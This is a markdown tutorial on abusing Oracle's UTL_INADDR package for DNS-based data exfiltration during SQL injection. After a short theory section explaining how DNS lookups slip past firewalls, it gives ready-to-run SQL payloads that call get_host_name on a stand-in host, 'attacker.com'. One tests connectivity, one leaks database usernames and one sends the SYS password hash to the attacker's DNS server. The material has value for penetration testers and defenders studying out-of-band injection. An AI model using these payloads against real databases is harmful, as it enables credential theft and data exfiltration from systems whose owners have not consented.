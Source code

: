 ```yaml
---
title: Exploiting Oracle's UTL_INADDR for DNS Data Exfiltration
description: Learn how to exploit Oracle's UTL_INADDR for out-of-band data exfiltration
  using DNS.
keywords:
- UTL_INADDR
- DNS exfiltration
- Oracle SQL injection
- network security
- Oracle database functions
---
```


# UTL_INADDR

## Context

The objective of this article is to demonstrate the exploitation of Oracle's UTL_INADDR package for out-of-band data exfiltration using DNS. The reader should have familiarity with DNS protocols, Oracle database functions, and Oracle SQL injection techniques to effectively utilize this knowledge in a controlled environment.

## Theory

### UTL_INADDR Functionality

UTL_INADDR is an Oracle package designed to perform network-related operations, particularly DNS resolutions. While its primary purpose is to facilitate network communication within database applications, this functionality can be exploited maliciously. The package allows DNS resolution using SQL queries, which attackers can leverage to exfiltrate data. When input validation is insufficient, UTL_INADDR can be utilized to submit arbitrary DNS queries. 

### DNS Exfiltration via UTL_INADDR

DNS exfiltration involves the extraction of data from a target system by injecting data into DNS queries that are resolved by an attacker's DNS server. The typical sequence involves crafting SQL injections that prompt the database to perform DNS lookups with embedded data. This data flows from the Oracle database server to the attacker's DNS server and can bypass traditional firewall restrictions since DNS traffic is seldom blocked. 

### Host Resolution and Data Exfiltration

Host resolution is the process of converting domain names into IP addresses. UTL_INADDR provides functions such as `get_host_name` for this purpose. Attackers can exploit this facility by resolving domains they control with additional information appended as subdomains. By sending queries with embedded sensitive information, attackers can extract data, effectively using DNS's design to bypass network security controls that fail to inspect payloads within DNS resolutions.

## Practice

### Exfiltrate Data Using UTL_INADDR.get_host_name

Below are steps to exfiltrate data using SQL commands and the `get_host_name` function:

1. **Testing Connectivity**
   - Start by confirming that UTL_INADDR can resolve external hostnames, establishing network capability. Use the following SQL command:
   ```bash
   SELECT UTL_INADDR.get_host_name('attacker.com') FROM dual;
   ```
   This query will trigger a DNS request to `attacker.com`, verifying that the Oracle server can perform DNS lookups.

2. **Exfiltrating Usernames**
   - Perform a more sophisticated query to extract usernames from the database:
   ```bash
   SELECT UTL_INADDR.get_host_name((SELECT username FROM all_users)||'.attacker.com') FROM dual;
   ```
   Here, usernames are appended as subdomains to `attacker.com`, encoded in DNS requests reaching the attacker's DNS server.

3. **Exfiltrating SYS Password Hash**
   - Further exploit the functionality to exfiltrate critical data like password hashes:
   ```bash
   SELECT UTL_INADDR.get_host_name((SELECT password FROM dba_users WHERE username='SYS')||'.attacker.com') FROM dual;
   ```
   This query sends the SYS user's password hash to an external DNS server controlled by the attacker, enabling them to capture and potentially crack the password offline.

**Outcome:** By executing these commands, sensitive data is exfiltrated from the Oracle database to designated DNS servers controlled by the attacker, circumventing typical network and security barriers.

## Tools

- **Oracle SQL*Plus**
- **Wireshark**